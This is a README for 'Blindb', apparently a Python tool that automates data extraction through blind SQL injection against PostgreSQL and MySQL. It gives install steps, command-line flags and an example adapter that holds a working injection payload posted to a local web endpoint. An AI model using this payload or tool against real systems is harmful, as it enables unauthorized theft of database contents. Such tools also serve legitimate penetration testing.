

# Blindb
A python tool to automatically extract data from blind sql injections. Currently supports postgres and mysql.
Also uses multithreading and multiple processes to speed up the extraction.
## Install

Clone this repository and the issue the command:

`
pip install .
`

to install the tool globally.
## Usage

### Command Line Arguments

- `---adapter` The python file containing the isTrue function, to execute the sql injection

- `--dbms` The dbms system in use (mysql or postgres)

- `--output` The text file path where the database info will be written.

- `--tables-db` The path of the sqlite database where the table contents will be duplicated to. (not required if extracting only the table names)

### Example

`blindb --adapter=sqli.py --dbms=postgres --output=dbinfo.txt --tables-db=data.db`

### The adapter file

The adapter is a python file containing a single function callled `isTrue`, which take one argument (the query) and returns either True or False, based on the condition.

Exmaple:

```python
import requests

def isTrue(query):
    payload = f"""abcd1234' AND {query} AND ''='"""

    r = requests.post("http://localhost:5000/sqli",
        verify = False,
        data = {
            "q": payload
        }
    )

    return len(r.content) != 3
```

## Screenshots

